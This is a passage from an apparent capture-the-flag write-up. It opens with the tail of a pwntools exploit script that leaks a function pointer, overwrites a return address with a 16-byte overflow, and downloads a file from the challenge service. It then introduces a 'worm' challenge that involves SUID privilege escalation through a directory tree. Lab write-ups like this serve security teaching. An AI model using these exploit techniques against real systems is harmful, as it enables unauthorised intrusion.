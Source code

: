 ```python
    else:
        return process([exe.path])


def main():
    r = conn()
    r.sendline("1")
    win = int(re.search(b"(0x.*?)\"",r.recvuntil("}")).group(1),16)
    log.info("win function ptr: " + hex(win))
    r.sendline(b"A" * 16 + p64(win))
    r.recvuntil("cmd> ")
    r.recvuntil("cmd> ")
    r.recvuntil("cmd> ")
    r.sendline(b"3")
    image = r.recvuntil("1. List files.")
    f = open("fawn.jpg","wb")
    f.write(image)
    f.close()
    
    # good luck pwning :)

    r.interactive()


if __name__ == "__main__":
    main()
```

# worm (pwn)

```text
Write a worm and pwn my system :)
nc 35.188.197.160 1001
```
[worm](https://github.com/b01lers/circle-city-ctf-2021/raw/main/pwn/worm/dist/worm.zip)

So we get arbitary code exec on the system already and our goal is to find the flag, which is randomly distributed between 2^10 folders which are created in a tree structure. Making things slightly more complicated, each level is owned by a different user and you need to privesc with a trivially exploitable SUID binary. Also you get 512 bytes to do it lol. There were two versions of this challenge -- the original did not close stdin so you could execute bash and get a shell indefinitely. The fixed version resolved that issue.  Fortunately, my solution was under 512 bytes already when compressed so free points. 

```text
room0/
|-- key
|-- room0
|   |-- key
|   |-- room0
|   |   `-- flag.txt
|   `-- room1
`-- room1
    |-- key
    |-- room0
    `-- room1
```
